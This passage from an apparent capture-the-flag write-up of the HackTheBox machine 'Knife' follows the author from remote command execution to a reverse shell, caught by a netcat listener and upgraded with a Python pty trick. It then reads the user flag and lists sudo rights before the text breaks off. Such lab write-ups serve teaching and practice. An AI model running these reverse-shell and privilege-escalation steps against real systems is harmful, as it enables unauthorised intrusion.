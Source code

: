 It runs `system("id")` and the result is at the top of the response.

### Shell

I’ll replace `id` with a reverse shell, and run it again.

![image-20210522154302972](https://0xdfimages.gitlab.io/img/image-20210522154302972.png)

The response just hangs, but at `nc`, I’ve got a shell:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.242] 55806
    bash: cannot set terminal process group (933): Inappropriate ioctl for device
    bash: no job control in this shell
    james@knife:/$ 
    

I’ll upgrade with the normal trick:

    
    
    james@knife:/$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    james@knife:/$ ^Z
    [1]+  Stopped                 nc -lnvp 443 
    oxdf@parrot$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    james@knife:/$ 
    

And grab the user flag:

    
    
    james@knife:~$ cat user.txt
    77834514************************
    

## Shell as root

### Enumeration

When trying to escalate on Linux, always check `sudo -l`:

    
    
    james@knife:~$ sudo -l
    Matching Defaults entries for james on knife:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User james may run the following commands on knife:
        (root) NOPASSWD: /usr/bin/knife
    